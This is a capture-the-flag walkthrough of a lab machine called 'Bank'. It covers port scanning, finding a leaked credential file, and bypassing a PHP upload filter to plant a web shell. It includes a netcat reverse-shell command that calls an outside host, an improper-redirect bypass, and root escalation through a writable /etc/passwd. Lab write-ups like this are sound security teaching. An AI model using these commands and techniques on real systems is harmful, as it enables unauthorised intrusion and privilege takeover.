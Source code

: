 ![](images/boxInfo.png)

# Recon

## nmap 
```console
root@kali:~# nmap -sC -sV 10.10.10.29
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-10 20:35 EDT
Nmap scan report for 10.10.10.29
Host is up (0.55s latency).
Not shown: 997 closed ports
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 6.6.1p1 Ubuntu 2ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 08:ee:d0:30:d5:45:e4:59:db:4d:54:a8:dc:5c:ef:15 (DSA)
|   2048 b8:e0:15:48:2d:0d:f0:f1:73:33:b7:81:64:08:4a:91 (RSA)
|   256 a0:4c:94:d1:7b:6e:a8:fd:07:fe:11:eb:88:d5:16:65 (ECDSA)
|_  256 2d:79:44:30:c8:bb:5e:8f:07:cf:5b:72:ef:a1:6d:67 (ED25519)
53/tcp open  domain  ISC BIND 9.9.5-3ubuntu0.14 (Ubuntu Linux)
| dns-nsid: 
|_  bind.version: 9.9.5-3ubuntu0.14-Ubuntu
80/tcp open  http    Apache httpd 2.4.7 ((Ubuntu))
|_http-server-header: Apache/2.4.7 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 96.61 seconds
```

## gobuster
```bash
gobuster dir -u 10.10.10.29 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```
gobuster didn't gave any results for 10.10.10.29  
`searchsploit isc bind` --> all exploits for `ISC BIND 9.9.5` were denial of service so not useful  

adding `10.10.10.29` to `/etc/hosts` as `bank.htb` and then visiting bank.htb gave a login page

![](images/loginPage.png)

sqlmap didn't gave any results for the login page  
running gobuster for `bank.htb` gave `/assets` and `/inc` which contain some files but they were not useful  
```bash
gobuster dir -u bank.htb -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html,txt -t 50
```

![](images/gobuster.png)

![](images/assets.png)

# Plain Text Creds
visiting `/balance-transfer` we see a lot of `.acc` files with username emailID and password in encrypted hex

![](images/balanceTransfer.png)

![](images/encryptedCreds.png)

there might be something important in one of these files so we can try to find a file of different size than others  
most files that I see are between 582-585 in size so I used `curl` and `grep` to find a different file
```bash
curl http://bank.htb/balance-transfer/ | grep -v '/td><td align="right">58'
```

![](images/curl.png)

we can see in the output of above command that `68576f20e9732f1b2edc4df5b8533230.acc` is just 257 bytes  
this file had username emailID and password in plain text  

![](images/acc_creds.png)

# Reverse Shell
we can now login using `chris@bank.htb:!##HTBB4nkP4ssw0rd!##` and there is a file upload functionality in `/support.php`  
trying to upload php file give error that only image upload is allowed 

![](images/phpError.png)

in the source code of /support.php we can see this comment 

![](images/comment.png)

uploading php file with `.htb` extension allows to execute php code  
after uploading `shell.htb` we can visit the following URL to get a shell  
```
http://bank.htb/uploads/shell.htb?c=nc 10.10.14.31 8888 -e /bin/bash
```

![](images/reverseShell.png)

# Alternate Way
## Improper Redirect
we can also upload the shell.htb file without having to login as chris because of improper redirect  
`/support.php` gets redirected to `/login.php` if we are not logged in but it also gives the content of /support.php before the redirect  
so we can still upload the file without login by changing the `302 FOUND` to `200 OK` in burp and then access the uploaded file from `/uploads/shell.htb`  
as curl does not allow redirect by default we can curl /support.php to see that it gives "302 FOUND" but still gives the content

![](images/improperRedirect.png)

# privEsc
## Method 1 - SUID
found an uncommon suid binary 
```
find / -perm -u=s 2>/dev/null
```

![](images/privEsc.png)

## Method 2 - /etc/passwd
looking through the results of `LinEnum.sh`, we can see that we have write access on /etc/passwd  
so we can either change the root password or add another user in /etc/passwd to get root shell  

![](images/etcPasswd_permissions.png)

we can use openssl to generate the encrypted password  

![](images/openssl.png)

![](images/nano_etcPasswd.png)

after adding a new user with root privileges we can either switch user using `su` or SSH as that user  

![](images/su.png)

![](images/ssh_poison.png)

![](images/prize.png)
